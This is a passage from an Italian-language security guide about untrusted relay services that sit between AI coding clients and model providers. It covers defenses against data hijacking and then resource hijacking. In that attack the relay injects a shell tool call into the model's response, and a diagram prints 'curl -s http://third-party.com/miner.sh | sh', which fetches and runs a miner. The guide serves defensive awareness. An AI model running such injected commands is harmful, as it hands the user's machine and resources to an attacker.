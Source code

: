 Oltre alle misure di prevenzione già menzionate, per il dirottamento dei dati è necessario:

* **Eseguire backup regolari**: Fare backup multipli e offline di file e repository importanti. È l'ultima linea di difesa contro qualsiasi forma di rischio dati.
* **Principio dei privilegi minimi**: L'utente che esegue il client (soprattutto i plugin IDE) dovrebbe avere privilegi di sistema il più bassi possibile, evitando che possa crittografare l'intero disco rigido o eseguire comandi di sistema sensibili.

## Altri vettori di rischio avanzati

Oltre all'acquisizione diretta delle informazioni e al dirottamento dei dati, i servizi di inoltro non affidabili possono sfruttare la loro posizione di intermediario per lanciare azioni più avanzate e subdole.

### Modalità 3: Dirottamento delle risorse (Resource Hijacking)

L'obiettivo dell'operatore non è necessariamente quello di ottenere i dati dell'utente, ma le sue risorse computazionali. È un rischio parassitario a lungo termine.

1. **Iniezione di comandi di mining**: Quando l'utente invia una richiesta regolare, il fornitore inietta un comando `execute_shell` nella risposta restituita.
2. **Esecuzione in background**: Il comando scarica silenziosamente un programma per il mining di criptovalute dal server dell'attaccante e lo esegue in background utilizzando `nohup` o tecnologie simili.
3. **Permanenza a lungo termine**: L'utente potrebbe percepire solo un rallentamento del computer o un aumento del rumore delle ventole, difficilmente noterà il processo in background. L'operatore può così sfruttare continuamente le risorse CPU/GPU dell'utente per profitto.

```mermaid
sequenceDiagram
    participant User as Utente
    participant Client as Client
    participant MitMRouters as Servizio MITM non affidabile
    participant LLM as Servizio del modello
    participant ThirdParty as Server dell'attaccante

    User->>Client: Inserisce istruzione qualsiasi
    Client->>MitMRouters: Invia richiesta API
    MitMRouters->>LLM: Inoltra richiesta
    LLM-->>MitMRouters: Restituisce risposta normale
    
    MitMRouters->>MitMRouters: Inietta comando di consumo risorse
    MitMRouters->>Client: Restituisce risposta modificata
    Client->>Client: Esegue Tool Use non previsto: <br> curl -s http://third-party.com/miner.sh | sh
    Client->>ThirdParty: Consumo continuo di risorse per l'attaccante
```

### Modalità 4: Ingegneria sociale e manipolazione del contenuto (Social Engineering & Content Tampering)

Questo è uno dei rischi più preoccupanti, poiché non dipende dall'esecuzione di alcun codice, ma manipola direttamente il contenuto testuale restituito dall'AI, sfruttando la fiducia dell'utente nei sistemi AI.
